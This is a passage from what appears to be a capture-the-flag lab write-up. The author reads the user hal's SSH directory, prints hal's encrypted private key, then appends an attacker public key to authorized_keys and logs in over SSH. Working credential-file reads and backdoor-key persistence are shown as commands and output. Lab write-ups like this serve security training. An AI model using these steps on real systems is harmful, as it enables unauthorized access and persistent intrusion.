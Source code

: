 Inside hal's homedir, there's a `.ssh` dir:



    >>> os.listdir('/home/hal/.ssh')
    ['id_rsa', 'authorized_keys', 'id_rsa.pub']



I can pull the `id_rsa`, but it's encrypted:



    >>> with open('/home/hal/.ssh/id_rsa','r') as f: f.read()
    '-----BEGIN RSA PRIVATE KEY-----\nProc-Type: 4,ENCRYPTED\nDEK-Info: AES-128-CBC,4F7C6A9FD8FB74EDF6E605487045F91D\n\nqVxdFeBjyqXIUkZ6A+8u77HfZgUUwmPOuhN9xFYy+f36kKwr1Wol3iWRHB7W7Ien\n5vjyyNT3+mTO272NcAwreWRH0EZWDmvltWP5e9gESTpA4ja+vNP32UNwJ9lK1PLL\nmSm7XFl4xOMkhheRzJlLRF7b41C8PKsMVP2DpaHLMxHwTCY1fX5j/QgWpwPN5W0R\nDTQvsHyFj+gfsYjCTdrHUX0Dhg+LdVr7SH9NDt0twg/RxtXkAvwbyw3eRXAR0YCB\nmrldQ4ymh91G4CapoIOyGUVZUPE/Sz1ZExVCTlfGT9LUgE8L7aaImdOxFkrKDiVb\nddhdWnXwnCrkxIaktwCSIFzl8iT71OxsQOcoq+VV8VbOsL2ICdgHNOIxQ2HonRQS\nEj19P02Ea5rOHVVx/SYxT+ce6Zx301GkYmPu80LVVFK8x7gRajMYgFu/bgC67F91\n/QQ6IYkpoSr+eY8l0aJa5IpUo20sGV6xktiyx4V5+kMudiNTE/SAAea/vCCBBqZl\n5YFdp/TW5sqvkvB5w4/a/UUj1POa0tT/Ckox9JWq2idq+tYw+MATejY+Xv1HUOun\nYuV0Lm5AjdSBAcpIfU6ztJQ1zoVVYPqWXwRia38pSFDTz1pAHt9W6JBCRT3PKLo9\nrb8xOhvx6VNj4ZgvaEdxw25RCAGyoEN6/S7z/tgVYZvWoXRqUvOkYq2iyECQ+6ib\nqn/YjpRCX0Q9/3QRH0XSfTo7GvzbS4nTC2KubxmG9CJv/AAfdf1DcpvSfjtkUn5a\nbN1NOMWbJkrFCLeS6P4fPUJt8VwEJXP+IQaqz9bJYyRI1uIrG2PhzpRZ+24iHv63\n2lY+lZpeZBdagYJcp3qnh/f6kVtD+AyhyDurQ+EhsgBdqm4XM+d7AvilTDzqiU3v\nb6ZIzTRsVTWUKsTfvkiFop64d8uIov16b6FimiG/YNFQfd7SUL8hvjJVeArWRGjO\nvPn+RB4BYS0s3VZI+08Jo/BL8EXFeuMZdpbDFnGDhaINSL1/cZasQS6hRYUJsKZN\nT7ptM3NdKNyrVGwfKyttp3OHZFjPRjZezpBR60q+HI37pt/iDkuhbeK2Pr9jNR3f\njfqv8lGlOMIoPA6ERxPveUrLldL6NfLT0gPasDrWo0RRDIzanqz0wYK/SfuIiumT\n8tonBa4kQlxAyenW1p+nx5bZ1QXPQaUbXbAe3AbOU2YG20LJ0v8mxVZE0zP9QNZM\nDSHtv3uIl3nONJIJryp8Y6UjW1q3+UaAnTS6J/IXk+JVsSIRs5hbNDtNLlhFowDq\n2OWEh2CRE7TNptk6Bb8pZbfyA/lCXJhJjo8YZLc3xZ2h1WF1vaXCHYo/FNqeoS0k\nyicWCEz2fSKfNMnMpcVreQglfA9u49+Cvqzt1JnIlX1gDUg8EXV5rLAEgiSRfVin\nB1pTjH/EROnppfQkteSbRq9B9rrvcEQ8Q5JPjr7kp3kk07spyiV6YqNmxVrvQtck\nrQ+X68SNYRpsvCegy59Dbe5/d6jMdFxBzUZQKAHCyroTiUS8PtsAIuRechR0Cbza\nOM2FRsIM8adUzfx7Q91Or+k2pIKNKqr+5sIpb4M0GHggd7gD10E+IBUjM9HsQR+o\n-----END RSA PRIVATE KEY-----\n'



I can more easily just create an ssh keypair and write the public key
into the file:



    >>> with open('/home/hal/.ssh/authorized_keys','a') as f: f.write('\nssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC0SwpwZ7rgMtCZYzkDtFJvQZO20N+8DmYxOix+PgL6VQW/9wZC3xnKK1zeAelMYtv/O38GXE2ghUH7z6ayVmTMkjGqt18mhsEpCt0BbonGRC0IHoBsV5QBVNin+x1soVdECT1Tr45bNnTnkZXIgSyDumc+2Ix6A1wiiC5RbI3SrxJ7nL0lRlhjdoAH6KCb4dwhX+Jos0VudHRreE01+0YE0Qb7Sd0eA5Cq7UtjgiW6VyXcmWH7aQdVZlUanrs5wdwWYeVCxY/XfFCCDmHZw+8W5INudM2t7on7bl/rYnhAExOr14/1s7LfYAfV8B6VNPPX+IOzOcT4aYQC3rRDiG5P root@kali')



Now I can ssh in using the matching private key:



    root@kali# ssh -i ~/id_rsa_generated hal@10.10.10.139
    Welcome to Ubuntu 18.04.1 LTS (GNU/Linux 4.15.0-46-generic x86_64)

     * Documentation:  https://help.ubuntu.com
     * Management:     https://landscape.canonical.com
     * Support:        https://ubuntu.com/advantage

      System information as of Sun Jun  2 13:35:06 UTC 2019

      System load:  0.92               Processes:            101
      Usage of /:   23.5% of 19.56GB   Users logged in:      0
      Memory usage: 13%                IP address for ens33: 10.10.10.139
      Swap usage:   0%
